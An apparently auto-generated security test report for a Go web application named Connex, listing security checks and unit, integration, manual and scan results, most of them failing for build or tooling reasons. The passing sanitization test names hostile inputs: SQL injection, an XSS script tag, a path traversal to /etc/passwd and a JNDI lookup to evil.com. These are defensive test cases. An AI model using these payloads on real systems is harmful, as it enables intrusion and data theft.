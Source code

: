 # Comprehensive Security Test Report

**Date**: Thu Jul  3 21:51:45 MDT 2025
**Application**: Connex
**Test Suite**: Security Testing

## Test Summary

### Unit Tests
- **Status**: ✅ PASSED
- **Log File**: test-results/unit-tests.log

### Integration Tests
- **Status**: ❌ FAILED
- **Log File**: test-results/integration-tests.log

### Manual Tests
- **Status**: ❌ FAILED
- **Log File**: test-results/manual-tests.log

### Security Scan
- **Status**: ❌ FAILED
- **Log File**: test-results/security-scan.log

## Security Features Tested

### 1. Authentication & Authorization
- [ ] JWT token validation
- [ ] Password policy enforcement
- [ ] Session management

### 2. Input Validation
- [ ] Email format validation
- [ ] Password complexity requirements
- [ ] XSS protection
- [ ] SQL injection protection

### 3. Security Headers
- [ ] X-Content-Type-Options
- [ ] X-Frame-Options
- [ ] X-XSS-Protection
- [ ] Content-Security-Policy
- [ ] Referrer-Policy
- [ ] Modern security headers

### 4. Rate Limiting
- [ ] IP-based rate limiting
- [ ] Authentication endpoint protection
- [ ] Request throttling

### 5. Error Handling
- [ ] Information leakage prevention
- [ ] Structured error responses
- [ ] No sensitive data in logs

### 6. Security Monitoring
- [ ] Failed login attempt detection
- [ ] Suspicious request detection
- [ ] Security event logging

### 7. CSRF Protection
- [ ] CSRF token validation
- [ ] State-changing request protection

### 8. Request Size Limiting
- [ ] Large request rejection
- [ ] Memory protection

## Test Results

### Unit Test Results
```
connex/pkg/logger.(*Logger).Error
	/Users/darrenwei1/Downloads/connex/pkg/logger/logger.go:119
connex/internal/api/middleware.WriteStructuredError
	/Users/darrenwei1/Downloads/connex/internal/api/middleware/response.go:26
connex/internal/api/middleware.WriteError
	/Users/darrenwei1/Downloads/connex/internal/api/middleware/response.go:20
connex/internal/api/auth.(*Handler).Register
	/Users/darrenwei1/Downloads/connex/internal/api/auth/handler.go:61
connex/tests/security.TestInputSanitization.func1
	/Users/darrenwei1/Downloads/connex/tests/security/security_test.go:306
testing.tRunner
	/usr/local/go/src/testing/testing.go:1792
--- PASS: TestInputSanitization (0.00s)
    --- PASS: TestInputSanitization/malicious_';_DROP_TABLE_users;_-- (0.00s)
    --- PASS: TestInputSanitization/malicious_<script>alert('xss')</script> (0.00s)
    --- PASS: TestInputSanitization/malicious_../../etc/passwd (0.00s)
    --- PASS: TestInputSanitization/malicious_${jndi:ldap://evil.com/exploit} (0.00s)
    --- PASS: TestInputSanitization/malicious_';_INSERT_INTO_users_VALUES_('hacker',_'hacker@evil.com');_-- (0.00s)
PASS
ok  	connex/tests/security	(cached)
```

### Integration Test Results
```
# connex/tests/integration.test
link: duplicated definition of symbol dlopen, from github.com/ebitengine/purego and github.com/ebitengine/purego
FAIL	connex/tests/integration [build failed]
FAIL
```

### Manual Test Results
```
🔒 Starting Manual Security Testing
===================================
Starting comprehensive security testing...
[0;32m[INFO][0m Checking if application is running...
[0;31m[ERROR][0m Application is not running at http://localhost:8080
[0;32m[INFO][0m Please start the application first: make dev-docker
```

### Security Scan Results
```
🔒 Starting Security Scan for Connex Application
================================================
Starting comprehensive security scan...
[0;32m[INFO][0m Checking required tools...
[0;31m[ERROR][0m Trivy is not installed. Please install it first.
[0;32m[INFO][0m Installation: https://aquasecurity.github.io/trivy/latest/getting-started/installation/
```

## Recommendations

1. **Review Failed Tests**: Address any failed tests immediately
2. **Monitor Logs**: Check application logs for security events
3. **Regular Testing**: Run security tests regularly in CI/CD
4. **Penetration Testing**: Consider professional penetration testing
5. **Security Updates**: Keep dependencies updated

## Next Steps

1. Fix any identified security issues
2. Implement additional security measures if needed
3. Set up automated security testing in CI/CD pipeline
4. Schedule regular security audits

---

**Report Generated**: Thu Jul  3 21:51:45 MDT 2025
**Test Environment**: Darwin MacBook-Air.local 24.4.0 Darwin Kernel Version 24.4.0: Fri Apr 11 18:34:14 PDT 2025; root:xnu-11417.101.15~117/RELEASE_ARM64_T8122 arm64
**Go Version**: go version go1.24.3 darwin/amd64

